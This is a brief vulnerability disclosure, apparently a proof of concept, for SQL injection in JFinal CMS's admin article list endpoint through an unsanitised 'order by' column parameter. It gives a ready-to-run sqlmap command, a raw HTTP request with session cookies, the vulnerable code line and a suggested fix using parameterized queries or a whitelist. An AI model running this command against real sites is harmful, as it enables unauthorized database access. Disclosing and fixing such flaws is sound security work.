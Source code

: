 # POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/admin/article/list  --thread 8 --batch --smart  --random-agent --data "form.orderColumn=*&form.orderAsc=asc&attr.folder_id=-1&attr.title=&attr.status=-1&totalRecords=9&pageNo=1&pageSize=20&length=10"  --cookie "  your cookie  " --current-db
```

![image-20220730061815292](image-20220730061815292.png)

Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist









# What is more

my test packet

```
POST /jfinal_cms/admin/article/list HTTP/1.1
Host: 172.30.48.1
Content-Length: 130
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.30.48.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.30.48.1/jfinal_cms/admin/article/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=BF13B42EDFC3DEC180959D6DF143BD18; session_user="wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c="; Hm_lvt_1040d081eea13b44d84a4af639640d51=1659122360,1659131581; Hm_lpvt_1040d081eea13b44d84a4af639640d51=1659131581
Connection: close

form.orderColumn=*&form.orderAsc=asc&attr.folder_id=-1&attr.title=&attr.status=-1&totalRecords=9&pageNo=1&pageSize=20&length=10
```

